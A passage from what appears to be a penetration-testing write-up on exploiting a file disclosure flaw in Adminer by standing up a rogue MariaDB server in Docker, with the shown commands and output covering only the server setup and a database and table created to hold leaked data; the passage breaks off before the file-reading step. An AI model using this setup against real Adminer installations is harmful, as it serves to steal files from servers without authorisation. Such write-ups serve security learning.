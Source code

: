 ### Exploiting Adminer

We now have two ways to exploit this file disclosure vulnerability. Either we create our own rogue MySQL server and exploit manually, or we use some script from GitHub to automatically exploit the vulnerability.

#### Way 1: Setting up Rogue MariaDB server with Docker

If we manually want to exploit this technique, we have to setup a MariaDB/MySQL server.

For this we first we need to download the latest MariaDB image:

```bash
root@darkness:~# docker pull mariadb
Using default tag: latest
latest: Pulling from library/mariadb
23884877105a: Pull complete
bc38caa0f5b9: Pull complete
2910811b6c42: Pull complete
36505266dcc6: Pull complete
e69dcc78e96e: Pull complete
222f44c5392d: Pull complete
efc64ea97b9c: Pull complete
9912a149de6b: Pull complete
7ef6cf5b5697: Pull complete
8a05be3688e0: Pull complete
c09ffdc1b660: Pull complete
2eb7fe288fc8: Pull complete
b41d1cc4d40f: Pull complete
a92376500910: Pull complete
Digest: sha256:379f3689cfcd53fd561c1aa2aea0a336a2362c9d31306528228321344a9cf979
Status: Downloaded newer image for mariadb:latest
docker.io/library/mariadb:latest
```
After downloading the image, we need start a new instance that is running on port 3306.

```bash
root@darkness:~# docker run -p 3306:3306 --name mariadb -e MYSQL_ROOT_PASSWORD=password -d mariadb:latest
```
Now we can connect to the docker instance in order to create a database to store the leaked information.

```bash
root@darkness:~# docker exec -it mariadb mysql -uroot -p
Enter password: password
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.4.12-MariaDB-1:10.4.12+maria~bionic mariadb.org binary distribution

MariaDB [(none)]>
```
After connecting, we can create the database.

```sql
MariaDB [(none)]> create database leak;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> use leak;
Database changed
MariaDB [leak]> create table info_leak(data varchar(255));
Query OK, 0 rows affected (0.010 sec)
Creating the database that will store the leaked information.
```
Creating the database and table to store the leaked information.
